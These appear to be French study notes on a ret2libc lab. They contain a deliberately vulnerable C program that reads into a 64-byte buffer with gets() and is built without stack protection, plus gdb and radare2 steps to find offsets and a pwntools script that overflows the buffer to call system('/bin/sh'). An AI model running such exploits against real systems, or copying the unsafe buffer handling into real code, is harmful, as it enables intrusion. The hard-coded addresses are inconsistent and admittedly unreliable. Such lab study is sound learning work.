

## Doc

- https://beta.hackndo.com/conventions-d-appel/
- https://beta.hackndo.com/rappels-d-architecture/
- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc

## Programme vulnérable

```c
//gcc source.c -o vuln-32 -no-pie -fno-stack-protector -m32
//gcc source.c -o vuln-64 -no-pie -fno-stack-protector


#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}
```

## Trouver le point d'entrée : la libc

```bash
   ~/Hacking/pwn/ret2libc    main !1 ?9    ldd ./vuln-32                                                                                                                                                                        ✔ 
        linux-gate.so.1 (0xf7fc7000)
        libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
        /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7fc9000)
```

**Attention: utiliser sa propre valeur -> réexécuter ldd:** ici 0xf7c0000

## Trouver le padding = taille du buffer pour segfault

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
76
```

## Trouver system - exit - /bin/sh

```bash
gdb -q ./vuln
b *main
p system
```

```bash
p exit
```

```bash
find __libc_start_main,+99999999,"/bin/sh" #bp nécessaire
```

## Automatisation de l'exploitation

Ça marche pas de ouf pour les addresses en fait. À corriger si le buffer est en argv[1] de plus.
Penser à rajouter des \x90.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system - sometimes execve()
payload += p32(0x0)         # return pointer - not important once we get the shell - sometimes exit()
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```


